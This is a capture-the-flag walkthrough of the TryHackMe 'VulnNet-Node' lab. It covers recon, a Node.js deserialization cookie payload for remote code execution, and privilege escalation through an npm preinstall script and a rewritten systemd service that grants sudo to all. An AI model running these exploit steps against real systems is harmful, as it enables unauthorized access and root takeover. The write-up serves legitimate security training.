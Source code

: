 ```yaml
---
title: Walkthrough - VulnNET-Node
published: true
---
```


Tags: Linux, Web, Javascript, Privilege Escalation, NPM.
Description: After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Difficulty: Easy
URL: [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

* * *

## Notes

The name and Nmap gives us the clue this is a nodejs vuln

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

- `gobuster dir -u http://10.10.136.21:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100`

Gobuster doesnt yeild much just shows us the login that we can find by visiting the website.

Checking the firefox inspector, the session cookie seems to base64.

![0xskar](/assets/vulnnet-node01.png)

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Node]
└─$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}           
```

Perhaps we are able to edit this cookie to give us access?

- encode `{"username":"Admin","isAdmin":true,"encoding": "utf-8"}` - `eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNBZG1pbiI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==`

Doesnt seem to do anything...

Going to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create a nodejs shell for our machine.

I have used this from the past to work with nodejs `_$$ND_FUNC$$_function(){codehere}()` and then modifying the code from [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and encodeing with base64 gets the server to send us a reverse shell.

```
{"rce":"_$$ND_FUNC$$_function(){eval(CODEHERE)}()"}
```

Encode to b64 and send through as the cookie to gain shell

```
efaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Using this we can privesc to serv-manage

- `echo '{"scripts": {"preinstall": "/bin/sh"}}' > exp/package.json`
- `sudo -u serv-manage npm -C /home/www/VulnNet-Node/exp/ --unsafe-perm i`

* * * 

## user.txt?

![0xskar](/assets/vulnnet-node02.png)

* * * 

## root.txt?

sudo -l shows us we can start and stop a service names vulnnet-auto.timer

```
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We have permissions so we can edit this file to send us another reverse shell.

- `find / -name vulnnet* 2>/dev/null`
- `cat /etc/systemd/system/vulnnet-job.service`

This file executes df we have permissions to edit however so we can edit to give us root perms.

```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```

Then we can swap to root and cat root.txt

```
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl stop vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl start vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo -l
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: ALL
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ cat /root/root.txt
cat: /root/root.txt: Permission denied
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo su
root@vulnnet-node:/etc/systemd/system# cat /root/root.txt
```

* * * 

